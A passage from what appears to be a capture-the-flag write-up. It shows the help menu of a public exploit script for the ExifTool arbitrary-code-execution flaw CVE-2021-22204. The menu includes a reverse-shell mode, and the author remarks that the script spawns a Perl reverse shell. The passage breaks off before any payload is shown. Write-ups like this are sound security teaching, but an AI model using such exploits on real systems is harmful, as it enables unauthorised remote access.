 ![](/img/image-20220603162451231.png)

### Shell

The tool help shows that the `-s` flag will spawn a reverse shell:



    oxdf@hacky$ python /opt/exploit-CVE-2021-22204/exploit-CVE-2021-22204.py
    UNICORD Exploit for CVE-2021-22204 (ExifTool) - Arbitrary Code Execution

    Usage:
      python3 exploit-CVE-2021-22204.py -c <command>
      python3 exploit-CVE-2021-22204.py -s <local-IP> <local-port>
      python3 exploit-CVE-2021-22204.py -c <command> [-i <image.jpg>]
      python3 exploit-CVE-2021-22204.py -s <local-IP> <local-port> [-i <image.jpg>]
      python3 exploit-CVE-2021-22204.py -h

    Options:
      -c    Custom command mode. Provide command to execute.
      -s    Reverse shell mode. Provide local IP and port.
      -i    Path to custom JPEG image. (Optional)
      -h    Show this help menu.



Running that, it is using a Perl reverse shell (which makes sense, given
it's a command injection in Perl, so I can count on Perl being
installed):
